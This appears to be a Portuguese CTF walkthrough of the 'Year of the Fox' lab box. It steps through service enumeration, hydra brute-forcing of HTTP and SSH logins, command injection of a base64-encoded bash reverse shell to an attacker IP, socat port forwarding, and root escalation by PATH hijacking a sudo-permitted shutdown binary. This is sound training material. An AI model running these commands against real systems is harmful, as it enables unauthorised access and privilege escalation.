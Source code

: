 # CTF_y3ar_0f_th3_f0x
walkthrough yearofthefox

*Nivel HARD

******************************************************************************************
Vou começar enumerando os serviços no host com o Nmap.

![fox0 2](https://github.com/user-attachments/assets/9497c669-b7f2-4bdd-8510-cd86bffa1d11)

******************************************************************************************
Usando o smbclient, existe um compartilhamento chamado yotf, porem precisamos da senha.

 us3r  ~  smbclient -L //10.10.18.229
Password for [WORKGROUP\us3r]:

	Sharename       Type      Comment
	---------       ----      -------
	yotf            Disk      Fox's Stuff -- keep out!
	IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))


![fox0 3](https://github.com/user-attachments/assets/253ebfc0-6749-41c1-83a5-285e52290969)

******************************************************************************************

Vou usar o enum4linux para listar os usuários disponíveis. Encontramos 2 usuários válidos: fox e rascal.

![fox0 4](https://github.com/user-attachments/assets/f865ba47-1778-459e-b986-88271d0551ad)

******************************************************************************************

Se no serviço da web não revelar senhas, precisaremos usar brute force

![fox0 5](https://github.com/user-attachments/assets/454d2602-828d-4e07-a9e9-e710ece3911a)

sou imediatamente bloqueado, pois todo o caminho é protegido por senha usando uma autenticação básica.

******************************************************************************************

Vou tentar forçar a autenticação com hydra usando rascal como usuário

![fox0 6](https://github.com/user-attachments/assets/075d4faf-9659-4af9-b5e1-d13ebf1e3cc8)

[80][http-get] host: 10.10.18.229   login: rascal   password: miroku
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-19 22:52:19
 us3r  ~  ^C

e encontrei o password

******************************************************************************************

Agora que logou, podemos entrar no site. É um search engine que pesquisa arquivos de texto.

![fox0 7](https://github.com/user-attachments/assets/839afcd7-5ed8-4e12-b03a-ff3e47544be8)

![fox0 8](https://github.com/user-attachments/assets/7bc2412d-e441-48e7-a8e5-b082f765e04b)

******************************************************************************************

A interceptação com o BurpSuite mostra que a solicitação é enviada para um arquivo search.php e a entrada do usuário é passada em uma string tipo JSON.

![fox0 9](https://github.com/user-attachments/assets/f5705618-dddb-40ec-86af-d2751c633a57)

******************************************************************************************

Vou usar o repeater do BurpSuite para reenviar solicitações

![fox1 1](https://github.com/user-attachments/assets/4020fca6-3aec-47be-88fd-0e78801c5d07)

******************************************************************************************
tentar injetar um shell reverso em bash 

echo -n "bash -i >& /dev/tcp/10.6.90.2/4444 0>&1" | base64

![fox1 2](https://github.com/user-attachments/assets/cb664284-5903-4e80-b3c6-d318b4478660)

******************************************************************************************
a requisição com o shell reverso codificado em base64

![fox1 3](https://github.com/user-attachments/assets/250dd357-101b-466f-ac63-e40b1d9e6c26)

******************************************************************************************
Tenho o shell reverso com netcat e garatimos a primeira flag 

![fox1 4](https://github.com/user-attachments/assets/cc9bf4eb-1020-42d9-9d87-2b8319d43808)

******************************************************************************************
Busquei por configurações SSH [sshd_config] pra verificar se existe serviço escutando em localhost,
confirmado pelo arquivo de configuração sshd_config, que informa que só o usuário Fox pode se conectar

![fox1 7](https://github.com/user-attachments/assets/cd9b643d-f651-4fc9-88ae-5e1c8d0dabf7)

******************************************************************************************

Posso usar o socat para abrir outra porta (por exemplo, 2222) e redirecionar para a porta 22 no localhost. Como o socat não está disponível no alvo, vou baixá-lo da minha máquina:

![fox1 8](https://github.com/user-attachments/assets/b143aef4-556c-42cd-9e6a-bf900f024380)

------------------------------------------------------------------------------------------

![fox1 9](https://github.com/user-attachments/assets/c69c5c81-b5ad-4fe5-8558-b899319f00a5)

******************************************************************************************

consegui a conexão SSH na porta 2222. Hora de um novo ataque brute force

![fox2](https://github.com/user-attachments/assets/3a5869e3-2d29-4a79-bd4f-1e45da2993e9)

******************************************************************************************

Temos a senha e vou fazer a conexão via ssh -p 2222

![fox2 1](https://github.com/user-attachments/assets/c8eda088-4fb2-4530-ad34-8d1a10831b9a)

e temos a SEGUNDA FLAG

******************************************************************************************

verifiquei os priviçegios do fox com sudo -l e mostra que podemos executar o shutdown como root sem senha.
Ao realizar eng reversa no codigo mostra que o executável de desligamento provavelmente foi escrito pelo autor do desafio. ele depende da função de desligamento

void main() {
    system("poweroff");
    return;
}

Vamos explorar a vulnerabilidade encontrada fazendo uma cópia do bash que chamaremos em vez de desligar:
cp /bin/bash poweroff
sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown

![fox2 2](https://github.com/user-attachments/assets/7cb83a9f-f5ac-4492-abdd-781a18c5274e)

******************************************************************************************
Foi escalado pra user ROOT!!!
a flag não estava disponivel no diretorio principal, mas sim oculta dentro do home/rascal.
ai está a TERCEIRA FLAG!

![fox2 3](https://github.com/user-attachments/assets/61f06ef5-0f81-4a7d-b212-be6d05c4c01a)






